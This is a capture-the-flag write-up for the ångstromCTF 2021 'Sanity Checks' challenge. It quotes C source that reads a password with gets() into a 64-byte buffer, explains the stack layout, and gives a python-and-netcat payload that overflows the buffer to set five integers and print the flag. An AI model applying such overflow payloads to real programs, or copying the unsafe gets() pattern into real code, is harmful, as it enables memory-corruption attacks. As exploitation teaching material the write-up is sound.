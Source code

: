## Sanity Checks

### Challenge Description

I made a program (source) to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at `/problems/2021/sanity_checks` on the shell server, or connect with `nc shell.actf.co 21303`.  

Hint: `gdb` may be helpful for analyzing how data is laid out in memory.  

### Writeup

We are given an executable file and its code and a server address. We have four variables defined in code:  
```python
char password[64];
int ways_to_leave_your_lover = 0;
int what_i_cant_drive = 0;
int when_im_walking_out_on_center_circle = 0;
int which_highway_to_take_my_telephones_to = 0;
int when_i_learned_the_truth = 0;
```
Then we have a `gets` function which gets value for `password` variable. If the password variable is equal to `password123` then we can proceed. We have some if conditions thaa check value of 5 integer variables.  
```python
if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];
                            FILE *f = fopen("flag.txt","r");
                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }
                            fgets(flag, 128, f);
                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
```
So we see that we have to give password in a way that contains `password123` and then some charachters that fills the gap between `password` array and integer variables. And finaly some bytes that can change integer values in a way that `if conditions` satisfy.  
First we have to put `password123\x00` to authorize password. Then we should have some charachters to fill the gap. And then we used the result of code bellow to initialize that integers.  
```python
import pwn
pwn.p32(17) + pwn.p32(61) + pwn.p32(245) + pwn.p32(55) + pwn.p32(50)
```
We need 64 byte to fill gaps. Finally we can get the flag using command bellow:  
```
python2.7 -c "print 'password123\x00' + 'A'*64 + '\x11\x00\x00\x00=\x00\x00\x00\xf5\x00\x00\x007\x00\x00\x002\x00\x00\x00'" | nc shell.actf.co 21303
```
Here is the flag:  
![flag.png](https://github.com/aahsani/CTFWriteups/blob/master/%C3%A5ngstromCTF2021/Binary/SanityChecks/flag.png)